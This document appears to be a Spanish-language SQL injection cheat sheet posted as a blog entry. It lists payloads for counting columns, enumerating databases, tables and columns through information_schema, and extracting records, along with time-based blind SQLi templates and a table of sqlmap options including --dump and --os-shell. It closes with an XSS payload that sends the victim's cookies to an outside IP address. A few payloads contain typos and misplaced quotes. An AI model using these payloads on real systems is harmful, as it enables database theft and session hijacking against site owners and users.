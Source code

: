 ```yaml
---
layout: post
title: SQLi - CheetSheat
tags: [Linux,CheetSheat]
description: SQLi - CheetSheat
---
```


## Error Based

### Averiguar la cantidad de columnas

```
' ORDER BY 1-- -
' ORDER BY 2-- -
" ORDER BY 3-- -
" ORDER BY 4-- -
...
```

```
@@version
database()
load_file('<file>')
user()
```

### Enumerar Base de Datos

```
SELECT schema_name FROM information_schema.schemata
SELECT count(*) FROM information_schema.schemata
SELECT schema_name FROM information_schema.schemata LIMIT 0,1
SELECT schema_name FROM information_schema.schemata LIMIT 1,1
SELECT schema_name FROM information_schema.schemata LIMIT 2,1
```

### Enumerar tablas

```
SELECT count(*) FROM information_schema.tables WHERE table_schema='<database>'
SELECT table_name FROM information_schema.tables WHERE table_schema='<database>' LIMIT 0,1
SELECT table_name FROM information_schema.tables WHERE table_schema='<database>' LIMIT 1,1
SELECT table_name FROM information_schema.tables WHERE table_schema='<database>' LIMIT 2,1
```

### Enumerar columnas

```
SELECT count(*) FROM information_schema.columns WHERE table_name="<table>" AND table_schema="<database>"
SELECT column_name FROM information_schema.columns WHERE table_name="<table>" AND table_schema="<database> LIMIT 0,1"
SELECT column_name FROM information_schema.columns WHERE table_name="<table>" AND table_schema="<database> LIMIT 1,1"
SELECT column_name FROM information_schema.columns WHERE table_name="<table>" AND table_schema="<database> LIMIT 2,1"
```

### Extraer registros

```
SELECT x,x,x,coun(*),x FROM <database>.<table>
SELECT x,x,x,concat(<column>,0x3a,<column>,0x3a,<column>),x FROM <database>.<table>
```

----

## Blind SQL

### Base de Datos

```
' or IF(SUBSTR(database(),%d,1)=BINARY(0x%s),sleep(3),1)-- -" % (<position>,<chars>.encode("utf-8").hex())
```

### Tablas

```
' or IF(SUBSTR((SELECT %s FROM %s.%s LIMIT %d,1),%d,1)=BINARY(0x%s),sleep(3),1)-- -" % (<column>,<database>,<table>,<fila>,<position>,<chars>.encode("utf-8").hex())
```

### Columnas

```
' or IF(SUBSTR((SELECT column_name FROM information_schema.columns WHERE table_name='%s' AND table_schema='%s' LIMIT %d,1),%d,1)=BINARY(0x%s),sleep(3),1)-- -" % (<table>,<databse>,<fila>,<position>,<chars>.encode("utf-8").hex())
```

### Registros

```
' or IF(SUBSTR((SELECT %s FROM %s.%s LIMIT %d,1),%d,1)=BINARY(0x%s),sleep(3),1)-- -" % (<column>,<databse>,<table>,<fila>,<position>,<chars>.encode("utf-8").hex())
```

## SqlMap

| argumento      | descripción                                   |
|----------------|-----------------------------------------------|
| --url          | url                                           |
| -p             | parámetro vulnerable |
| --cookie       | cookie de sesión |
|  --level       | nivel                                         |
| --risk         | riesgo |
| --dbms         | motor de base de datos |
| --threads      | cantidad de hilos                             |
| --batch        | valores por defecto |
| --users        | extraer nombres de usuarios |
| --current-db   | DDBB que está utilizando |
| --current-user | usuario que está logueado |
| --dbs          | enumerar base de datos |
| -D             | seleccionar base de datos                     |
| --tables       | mostrar las tablas de la DDBB seleccionada    |
| -T             | seleccionar tabla |
| --columns      | mostrar las columnas de la tabla seleccionada |
| --dump         | obtener información de la tabla               |
| --os-shell     | obtenre shell                                 |



## XSS

```
<script>document.write('<img src="http://10.9.102.237:8000/arc.jpg?cookie='+document.cookie+'">')</script>
```

